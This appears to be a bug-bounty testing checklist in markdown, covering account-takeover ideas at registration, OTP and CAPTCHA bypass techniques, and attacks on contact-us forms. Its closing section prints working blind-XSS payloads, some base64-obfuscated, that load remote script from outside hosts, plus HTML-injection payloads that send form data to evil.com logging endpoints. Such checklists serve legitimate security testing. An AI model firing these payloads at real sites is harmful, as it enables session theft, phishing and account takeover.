 - [ ] Make 2 Accounts Same in everything [username and another things] but with Different email ID >> **ATO**
- [ ] [Duplicate Registration - The Twinning Twins | by Jerry Shah (Jerry) | Medium](https://shahjerry33.medium.com/duplicate-registration-the-twinning-twins-883dfee59eaf)
- [ ] Create user named: **AdMIn** (uppercase & lowercase letters)
- [ ] Create a user named: **admin=**
- [ ] **SQL Truncation Attack** (when there is some kind of **length limit** in the username or email) --> Create user with name: **admin [a lot of spaces] a**
- [ ] ***OTP BYPASS***
	- Response Manipulation
	- By repeating the form submission multiple times using repeater
	- Brute Forcing
	- [[JSON Tests Cheat Sheet]] -> Array of codes.....
	- Check for default OTP - 111111, 123456, 000000,4242
	- leaked in response
	- old OTP is still valid
	- Integrity Issues -> use someones else OTP to open your account
- [ ]  **PATH Overwrite** 
- [ ] **[[XSS|XSS]] in username/email for registration**

> ***[[CAPTCHA Feature]] Abuse***

- [ ] **[Captcha Bypass via response manipulation](https://bugcrowd.com/disclosures/55b40919-2c02-402c-a2cc-7184349926d7/login-capctha-bypass)**
- [ ] **<span style="color:#06ea6c">Do not send the parameter</span>** related to the captcha.
	- Change from POST to GET or other HTTP Verbs
	- Change to JSON or from JSON
- [ ] Send the **<span style="color:#06ea6c">captcha parameter empty</span>**.
- [ ] Check if the value of the captcha is **<span style="color:#06ea6c">in the source code</span>** of the page.
- [ ] Check if the value is **<span style="color:#06ea6c">inside a cookie</span>.**
- [ ] Try to use an **<span style="color:#06ea6c">old captcha value</span>**
- [ ] Check if you can use the <span style="color:#06ea6c">same captcha</span> **value** several times with **<span style="color:#06ea6c">the same or different session-ID</span>.**
- [ ] If the captcha consists on a **<span style="color:#06ea6c">mathematical operation</span>** try to **<span style="color:#06ea6c">automate</span>** the **<span style="color:#06ea6c">calculation</span>.**
- [ ] Enter CAPTCHA as a Boolean value (`True`)

>***[[Support-Contact us]]***

- [ ] **[There is no rate limit for contact-us endpoints](https://hackerone.com/reports/856305)**
- [ ] [Blind XSS on image upload support chat](https://hackerone.com/reports/1010466)
- [ ] Blind XSS
	```html
	"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Ii8veHNzLnJlcG9ydC9zL004U1pUOCI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs&#61; onerror=eval(atob(this.id))>
	'"><script src=//xss.report/s/M8SZT8></script>
    "><script src="https://js.rip/l5j9hbki0b"></script>
    "><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vanMucmlwL2w1ajloYmtpMGIiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 onerror=eval(atob(this.id))>
	```
- [ ] **[HTML Injection](https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection)**
	```html
	https://evil.comxxxxxxxxxxxxxxxxxxxxeeeeeeeeeeaaaaaaaaaaaaa%20%22<b>hello</b><h1>hacker</h1><a Href='evil.com'>xxxx</a>abc.comxxxxxxxxxxxxxxxxxxxxeeeeeeeeeeaaaaaaaaaaaaacxcccc
	"/><img src="x"><a href="https://evil.com">login</a>
	<button name=xss type=submit formaction='https://google.com'>I get consumed!
	<form action='http://evil.com/log_steal'>
	<form action=http://google.com><input type="submit">Click Me</input><select name=xss><option																<meta http-equiv="refresh" content='0; url=http://evil.com/log.php?text=
	```
